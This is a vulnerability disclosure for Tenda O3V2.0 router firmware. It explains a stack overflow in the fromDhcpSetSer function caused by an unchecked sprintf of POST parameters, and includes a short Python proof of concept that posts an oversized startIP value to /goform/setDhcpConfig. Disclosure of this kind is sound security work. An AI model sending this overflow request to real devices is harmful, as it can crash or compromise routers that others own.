 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2832.html

## Affected version

O3V2.0 V1.0.0.10(2478)

## Vulnerability details

In the O3V2.0 V1.0.0.10(2478) firmware has a stack overflow vulnerability in the `fromDhcpSetSer` function. The `v9, v10, v11, v13, v14, v15, v16` variable receives the `dhcpEn, startIP, endIP, preDNS, altDNS, mask, gateway` parameters from a POST request. However, since the user can control the input of these parameters, the statement `sprintf(v18, "%s;%s;%s;%s;%s;%s;%s;%s;%s", v9, "br0", v10, v11, v16, v15, (const char *)v19, v13, v14);` can cause a buffer overflow. The user-provided  `dhcpEn, startIP, endIP, preDNS, altDNS, mask, gateway` can exceed the capacity of the `v18` array, triggering this security vulnerability.

![image-20240714213333826](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240714213333826.png)

![image-20240714213349492](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240714213349492.png)

## POC

```python
import requests


ip = "192.168.84.101"
url = "http://" + ip + "/goform/setDhcpConfig"
payload = b"a"*2000

data = {"startIP": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240714213455164](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240714213455164.png)
